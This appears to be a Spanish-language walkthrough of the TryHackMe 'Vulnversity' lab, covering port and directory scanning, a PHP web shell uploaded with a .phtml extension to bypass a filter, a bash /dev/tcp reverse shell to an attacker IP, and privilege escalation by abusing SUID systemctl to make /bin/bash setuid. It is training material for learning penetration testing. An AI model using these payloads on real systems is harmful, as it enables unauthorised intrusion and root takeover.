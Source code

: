 ```yaml
---
title: "Vulnversity"
description: "Vulnversity"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/vulnversity

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.186.218 -oG allPorts
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426174427.png)

## Reconocimiento de servicios

````
nmap -sCV -p21,22,139,445,3128,3333 10.10.186.218 -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426174610.png)

## crackmapexec

````
crackmapexec smb 10.10.186.218
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426173603.png)
\[-\] Parcheado

## Gobuster

````
gobuster dir -u http://10.10.186.218:3333 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426175926.png)

# Fase de ataque

Podemos hacer un LFI to RCE en /internal

1. Creamos un payload

````
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426180945.png)
2. Observamos que la extensión .php no está permitida por lo que la cambiamos hasta encontrar otra que funciona .phtml
3. Insertamos el payload
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240426181202.png)

## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/443 0>%261"
````

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Privilege Escalation via SUID

1. Primero buscamos archivos donde tenga permisos

````
find / -perm-u=s -type f 2>/dev/null
````

2. Vemos que /bin/systemctl tiene permisos
2. cd /bin
2. Buscamos la vulnerabilidad aquí: [gtfobins.](https://gtfobins.github.io/gtfobins/systemctl/)
2. Ejecutamos este comando. En ExecStart entre "" ponemos el comando a ejeuctar

````
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
````

6. 

````
bash -p
````

\[+\] ==pwned!==
